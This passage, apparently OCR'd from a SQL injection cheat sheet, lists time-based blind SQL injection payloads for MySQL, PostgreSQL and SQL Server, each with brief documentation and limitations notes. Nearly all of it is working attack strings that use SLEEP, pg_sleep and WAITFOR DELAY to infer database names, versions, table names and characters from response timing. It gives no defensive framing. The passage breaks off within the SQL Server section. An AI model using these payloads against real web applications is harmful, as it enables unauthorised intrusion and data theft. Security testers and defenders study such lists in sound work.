 **Documentation**: Optimized boolean-based extraction using binary search for faster data retrieval.
**Limitations**: Still time-intensive; requires precise payload crafting; may trigger rate limiting.

## Time-Based Blind SQL Injection

### MySQL Time-Based Payloads
```sql
-- Basic Time-Based Tests
' AND SLEEP(5)-- -
' OR SLEEP(5)-- -
1'; SELECT SLEEP(5)-- -

-- Conditional Time-Based Extraction
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=10,SLEEP(5),1)-- -
' AND IF((SELECT SUBSTRING(VERSION(),1,1))='5',SLEEP(5),1)-- -
' AND IF((SELECT LENGTH(database()))=8,SLEEP(5),1)-- -

-- Data Extraction via Time Delays
' AND IF((SELECT ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1,1)))=117,SLEEP(5),1)-- -
```

**Documentation**: Uses database time delay functions to infer information when no output is available.
**Limitations**: Slow extraction process; network latency affects accuracy; may timeout on slow connections.

### PostgreSQL Time-Based Payloads
```sql
-- PostgreSQL Time-Based Tests
'; SELECT pg_sleep(5)-- -
' AND (SELECT pg_sleep(5) FROM pg_user WHERE current_user='postgres')-- -

-- Conditional Time Delays
'; SELECT CASE WHEN (SELECT current_database())='testdb' THEN pg_sleep(5) ELSE pg_sleep(0) END-- -
'; SELECT CASE WHEN (SELECT LENGTH(current_database()))=6 THEN pg_sleep(5) END-- -
```

**Documentation**: PostgreSQL-specific time-based blind injection using pg_sleep function.
**Limitations**: Requires PostgreSQL; may be detected by monitoring systems; slow data extraction.

### SQL Server Time-Based Payloads
```sql
-- SQL Server Time-Based Tests
'; WAITFOR DELAY '00:00:05'-- -
' AND (SELECT COUNT(*) FROM sys.databases)>0; WAITFOR DELAY '00:00:05'-- -

-- Conditional Time Delays
'; IF (SELECT SYSTEM_USER)='sa' WAITFOR DELAY '00:00:05'-- -
'; IF (SELECT LEN(DB_NAME()))=6 WAITFOR DELAY '00:00:05'-- -
```
